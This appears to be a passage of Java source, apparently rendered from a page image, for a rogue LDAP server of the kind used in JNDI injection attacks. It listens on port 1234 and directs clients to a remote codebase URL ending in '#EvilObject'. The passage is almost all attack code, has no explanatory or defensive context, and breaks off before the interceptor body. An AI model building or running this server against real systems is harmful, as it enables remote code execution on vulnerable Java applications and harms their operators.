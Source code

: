 LdapServer

```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class LdapServer {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main (String[] args) {

        String url = "http://127.0.0.1:8000/#EvilObject";
        int port = 1234;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        /**
         *
         */
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        /**
         * {@inheritDoc}
         *
```